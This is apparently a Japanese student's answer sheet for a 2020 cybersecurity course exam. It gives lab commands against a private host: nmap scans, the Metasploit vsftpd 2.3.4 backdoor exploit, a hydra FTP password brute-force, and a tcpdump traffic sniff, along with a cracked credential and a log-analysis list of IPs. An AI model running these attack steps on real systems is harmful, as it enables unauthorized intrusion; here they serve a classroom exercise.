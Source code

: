# CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
#ここに回答を記述
nc -l 5555　 

```
### クライアント側コマンド

```sh
#ここに回答を記述
nc 192.168.33.5 5555

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
#ここに回答を記述
nmap -sP 192.168.33.0/24 

```

### 2. version scan

```sh
#ここに回答を記述
nmap -sV -p- 192.168.33.5 

```

## 問4 [Metasploit Framework]

```sh
#ここに回答を記述
use exploit/unix/ftp/vsftpd_234_backdoor 
 set RHOST 192.168.33.5
 exploit  

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
#ここに回答を記述
hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp 

```

### 2. 解析結果

```sh
# 

```

## 問6 [Packet Sniffer]

```sh
#ここに回答を記述
sudo tcpdump -i eth1 -A host 192.168.33.5 and tcp port http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->
14207
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->
123.207
49.232.39.21
118.25.139.201
```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->
```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
50
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
ハッキング体験で仮想環境を使ってハッキングの手順とかを勉強するのは楽しかったけど理解が追いついてないなとテストをして感じました。そもそものネットワークやpcについての理解が浅いのが原因だと思うので、そこは頑張らないとなと思いました。
```

